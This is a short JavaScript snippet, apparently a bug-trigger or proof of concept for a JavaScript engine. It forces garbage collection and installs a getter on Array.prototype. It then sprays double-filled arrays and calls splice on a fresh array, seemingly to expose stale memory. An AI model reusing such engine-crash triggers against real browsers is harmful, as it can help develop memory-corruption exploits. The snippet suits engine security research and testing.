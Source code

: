 
function gc() {
    for (let i = 0; i < 0x10; i++)
        new ArrayBuffer(0x1000000);
}

Array.prototype.__defineGetter__(0x1000, () => 1);

gc();

for (let i = 0; i < 0x100; i++) {
    new Array(0x100).fill(1234.5678);
}

gc();

print(new Array(0x100).splice(0));

